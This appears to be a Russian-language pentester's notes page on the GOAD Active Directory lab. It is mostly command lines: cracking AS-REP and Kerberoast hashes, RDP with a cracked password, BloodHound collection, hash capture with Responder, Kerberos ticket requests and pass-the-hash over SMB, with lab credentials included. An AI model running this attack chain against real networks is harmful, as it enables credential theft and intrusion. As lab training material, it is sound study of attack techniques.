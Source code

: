 hashcat -m 18200 hashBRANDON.txt /usr/share/wordlists/rockyou.txt


hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
Ломаем сразу kerberoasting.hashes так как прошлой командой сохранили их (cme ...... --kerberoasting KERBEROASTING)
Из трех хешей сломался только jon.snow 


xfreerdp /v:192.168.56.11 /u:jon.snow /p:iknownothing /d:north /w:1900 /cert-ignore

закидываем sharphound
собираем информацию с 3 доменов
sharp.exe -d north.sevenkingdoms.local -c all --zipfilename bloodhound_north.zip

поднимаем smb сервер impacket-smbserver goad ~/Desktop/GOAD -smb2support -username smb -password smb 
передаем полученные зип файлы к себе (cmd= copy \\IP\share-name(goad)\file path-to=-file) через проводник т.к  cmd не дает перекинуть


Запускаем листинер для получения хешей
sudo responder -I tap0
``` 
ПОЛУЧЕНИЕ ТИКЕТА(билета) ПОЛЬЗОВАТЕЛЯ 
 impacket-getTGT north.sevenkingdoms.local/jeor.mormont -aesKey be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50 -dc-ip 192.168.56.11 
 2007  export KRB5CCNAME=jeor.mormont.ccache
 2008  KLIST

```
Получив хеши пользователей [[Сканы и энумерация]] подключаемся к smb .11 ( `impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664 -dc-ip 192.168.56.11 north/jeor.mormont@192.168.56.11` ) и проверяем папки. Находим пароль 
![Pasted image 20241224122204](https://github.com/user-attachments/assets/a2bce3d4-be00-4401-839b-9ebc8fffceed)


hashcat -m 18200 hashMISSANDEI.txt /usr/share/wordlists/rockyou.txt
